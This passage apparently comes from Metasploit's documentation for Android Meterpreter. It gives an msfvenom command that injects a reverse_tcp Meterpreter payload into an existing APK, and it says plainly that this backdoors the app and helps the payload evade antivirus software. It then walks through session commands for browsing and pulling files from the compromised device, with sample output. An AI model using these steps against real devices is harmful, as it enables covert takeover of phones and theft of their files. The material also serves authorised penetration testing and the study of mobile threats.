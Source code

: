You can also add Android meterpreter to any existing APK. This will make it harder for
Anti-virus software to detect the payload, and allow you read internal files and take
screenshots of the Android app that you are backdooring:

```
./msfvenom -p android/meterpreter/reverse_tcp -x com.existing.apk LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

[Please see here for more documentation on Android injection](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/android/meterpreter/injection.md).


Next, start an Android device. Upload the APK, and execute it. There are different ways to do this,
so please refer to the Scenarios section for more information.

## Important Basic Commands

**pwd**

The ```pwd``` command allows you to see the current directory you're in.

```
meterpreter > pwd
/data/data/com.metasploit.stage
```

**cd**

The ```cd``` command allows you to change directory. For example:

```
meterpreter > cd cache
meterpreter > ls
```

**cat**

The ```cat``` command allows you to see the contents of a file.

**ls**

The ```ls``` command displays items in a directory. For example:

```
meterpreter > ls
Listing: /data/data/com.metasploit.stage/files
==============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  0     fil   2016-03-08 14:56:08 -0600  rList-com.metasploit.stage.MainActivity
```

**upload**

The ```upload``` command allows you to upload a file to the remote target. The ```-r``` option
allows you to do so recursively.

**download**
